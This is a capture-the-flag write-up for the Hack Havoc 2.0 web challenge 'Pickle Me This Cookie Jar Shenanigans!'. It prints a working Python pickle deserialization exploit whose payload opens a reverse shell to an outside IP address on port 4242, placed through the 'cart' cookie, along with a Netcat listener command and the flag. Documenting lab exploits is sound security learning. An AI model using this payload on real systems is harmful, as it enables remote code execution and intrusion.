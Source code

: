 # CTF Write-Up: Pickle Me This Cookie Jar Shenanigans!

## Introduction

This write-up discusses the challenge: **Pickle Me This Cookie Jar Shenanigans!** from the **Hack Havoc 2.0** CTF.

## Required Information

- **CTF Name:** Hack Havoc 2.0
- **Challenge Name:** Pickle Me This Cookie Jar Shenanigans!
- **Challenge Category:** Web
- **Challenge Points:** 150

## Content
The Pickle Me This Cookie Jar Shenanigans! challenge involved using Python’s pickle module to craft a serialized payload for remote code execution. Here’s how I approached it:

### Step 1: Setup AWS Ubuntu Instance
I launched an Ubuntu instance on AWS and updated the security group’s inbound rules to allow traffic on all ports from any IPv4 address, ensuring it was fully accessible.

### Step 2: Create the Exploit Code
Using Python, I crafted an exploit with a reverse shell payload using the pickle module.

exploit.py
```python
import pickle
import base64
import subprocess

class RCE:
    def __reduce__(self):
        # Python reverse shell payload
        cmd = ('python3 -c \'import socket,subprocess;'
               's=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'
               's.connect(("13.239.38.111",4242));'
               'subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())\'')
        return subprocess.Popen, (['/bin/bash', '-c', cmd],)

if __name__ == '__main__':
    # Serialize the class instance to a pickle object
    pickled = pickle.dumps(RCE())

    # Encode the pickled object in base64 (for safe transfer in the cookie)
    payload = base64.urlsafe_b64encode(pickled).decode()
    print(f'Payload: {payload}')

```

### Step 3: Generate Payload, Update Cookies, and Start Listener
I ran **exploit.py** to generate a base64-encoded payload. I then copied this payload into the "**cart**" cookie on the challenge website. At the same time, I started a Netcat session on my AWS instance to listen for incoming connections with:


![](src\images\30.png)

### Step 4: Trigger the Exploit and Retrieve the Flag
After refreshing the page and navigating to */view*, the reverse shell was triggered. This gave me access to the server shell via the Netcat session, where I found the flag in flag.md.
```bash
nc -lvnp 4242
```

![](src\images\31.png)


## Flag: 
     CM{c0Ngr47S_y0u_ArE_A_Ser1A1_KI11er}
